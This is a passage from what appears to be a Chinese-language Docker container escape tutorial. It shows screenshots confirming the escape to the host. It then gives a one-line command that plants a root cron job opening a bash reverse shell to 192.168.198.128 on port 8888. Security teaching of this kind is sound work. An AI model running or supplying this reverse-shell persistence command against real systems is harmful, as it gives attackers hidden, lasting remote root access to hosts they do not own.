 ![image-20231008151145940](Docker逃逸漏洞案例.assets/image-20231008151145940.png)


这时去查看刚刚我们在宿主机根目录中创建的flag.txt文件，看其是否存在，就能判断出我们当前是否已经成功跳出docker容器

![image-20231008151155099](Docker逃逸漏洞案例.assets/image-20231008151155099.png)


这里可以看到我们现在已经成功跳出了docker容器，获得了宿主机的权限，可以使用计划任务反弹shell`echo '* * * * * bash -i >& /dev/tcp/192.168.198.128/8888 0>&1' >> /var/spool/cron/root`

![image-20231008151203454](Docker逃逸漏洞案例.assets/image-20231008151203454.png)
